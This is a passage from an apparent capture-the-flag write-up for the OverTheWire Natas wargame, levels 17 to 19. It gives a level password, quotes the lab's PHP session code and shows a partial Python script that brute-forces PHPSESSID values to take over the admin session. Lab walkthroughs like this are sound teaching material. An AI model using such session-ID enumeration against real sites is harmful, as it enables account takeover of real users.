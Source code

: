 3. Step 3 - Run the `python` code to brute-force `natas18` password:

![Screenshot image](/images/posts/natas_level_17_to_18.png)

4. Step 4 - Take the password to the next level.

**Next Level Password**

`6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ`

---

## Natas Level 18 → Level 19
(Updated: 15 August 2025)

**Credentials**
- **Username:** `natas18`
- **Password:** `6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ`

**Connection**

Level url: [http://natas18.natas.labs.overthewire.org/](http://natas18.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - Click `View sourcecode` and we can see the really long `php` code, but focus on these:
```php
$maxid = 640;

function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
```
**We can see that the authentication based on the `PHPSESSID` to determine if it is the admin.**

2. Step 2 - We have to create a `python` code to make requests with different `PHPSESSID` to the `natas18` in order to get the admin account.
3. Step 3 - Use my `python` code in order to get the admin PHPSESSID:
```python
import requests

url = "http://natas18.natas.labs.overthewire.org/index.php"
auth = ("natas18", "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ")

max_id = 640

for i in range(0, max_id + 1):
    cookie = f"PHPSESSID={str(i)}"

    headers = {'Cookie': cookie}

    print(f'[+] Getting {cookie}')
    response = requests.get(url, headers=headers, auth=auth)

```